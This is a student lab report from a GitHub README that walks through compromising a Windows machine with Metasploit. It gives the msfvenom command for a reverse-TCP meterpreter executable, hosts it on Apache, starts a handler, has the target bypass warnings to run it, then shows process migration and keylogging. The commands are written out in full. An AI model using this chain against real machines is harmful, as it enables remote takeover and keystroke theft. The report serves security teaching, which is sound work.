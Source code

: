# Compromising-windows-using-Metasploit
Compromising windows using Metasploit
# Metasploit
Compromising windows using Metasploit

NAME : VIRUMAA HARISH M

REG : 212223230246
# AIM:

To Compromise windows using Metasploit .

## DESIGN STEPS:

### Step 1:

Install kali linux either in partition or virtual box or in live mode

### Step 2:

Investigate on the various categories of tools as follows:

### Step 3:

Open terminal and try execute some kali linux commands

## EXECUTION STEPS AND ITS OUTPUT:
### PROGRAM:
Find the attackers ip address using ifconfig
### OUTPUT:
![374794141-b98e3dbe-cbf4-465e-83aa-f1ac913b2a51](https://github.com/user-attachments/assets/2f6e41f0-58e7-4c3b-a006-8d6c3cfebb98)
Create a malicious executable file fun.exe using msenom command 
 msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.1.2 -f exe > fun.exe

### OUTPUT:
![374794574-094f111d-38e4-47a4-b950-8c0544a3463e](https://github.com/user-attachments/assets/a35a9889-c95a-404b-995b-1a4e2857a964)
copy the fun.exe into the apache /var/www/html folder
![374794668-1a19f712-d904-4e9a-9c3f-a0f824215d01](https://github.com/user-attachments/assets/b353b60d-1335-4fc4-8208-e5710a8ddd92)
Start apache server sudo systemctl apache2 start
![374794788-2944d067-02b2-43fc-9487-5f9e71c393b7](https://github.com/user-attachments/assets/a0e2e4f2-2219-4cb2-a119-ea9f8a3004be)
Check the status of apache2 sudo apache2 status

Invoke msfconsole:

Type help or a question mark "?" to see the list of all available commands you can use inside msfconsole.

Starting a command and control Server use multi/handler set PAYLOAD windows/meterpreter/reverse_tcp set LHOST 0.0.0.0 exploit
### OUTPUT:
![374795103-d6bd1bdb-3064-45e8-b6b1-e22d2e80209f](https://github.com/user-attachments/assets/bfbf1ec5-8eae-4283-972b-242054eac047)
On the target Windows machine, open a Web browser and open this URL, replacing the IP address with the IP address of your Kali machine: http://192.168.1.2/fun.exe The file "fun.exe" downloads.
![374795180-7be60e9f-2ce3-487a-9668-8bdb282e8931](https://github.com/user-attachments/assets/ecbf4d84-df88-4168-999c-91fce0a744b2)
![374795180-7be60e9f-2ce3-487a-9668-8bdb282e8931](https://github.com/user-attachments/assets/20ab5b55-df3a-47a5-a7ef-f2ce45803618)
Bypass any warning boxes, double-click the file, and allow it to run. On kali give the command exploit
![374795286-596d3916-66f9-4605-8ae4-5dd21116b77a](https://github.com/user-attachments/assets/cf8f1540-8afd-4ce4-b388-ef67e147bb11)
To see a list of processes, at the meterpreter > prompt, execute this command: ps ⇒ can see the fun.exe process running with pid 1156

The Metasploit shell is running inside the "fun.exe" process. If the user closes that process, or logs off, the connection will be lost. To become more persistent, we'll migrate to a process that will last longer. Let's migrate to the winlogon process. At the meterpreter > prompt, execute this command:

migrate -N explorer.exe at meterpreter > prompt, execute this command: netstat A list of network connections appears, including one to a remote port of 4444, as highlighted in the image below. Notice the "PID/Program name" value for this connection, which is redacted

Post Exploitation:
The target is now owned. Following are meterpreter commands for key capturing in the target machine keyscan_start Begins capturing keys typed in the target. On the Windows target, open Notepad and type in some text, such as your name.
![374795471-d53176fa-7af0-4f05-b526-91713074335d](https://github.com/user-attachments/assets/ec75dc42-d147-4b5e-8477-fc44ae6d8ea4)
keyscan_dump Shows the keystrokes captured so far
![374795532-ec7c391d-62a6-4fdc-a2c3-ef383b6c8a57](https://github.com/user-attachments/assets/a25f940d-595a-482c-8a3c-47e1a59991b0)

## RESULT:
The Metasploit framework is  used to compromise windows and is examined successfully.
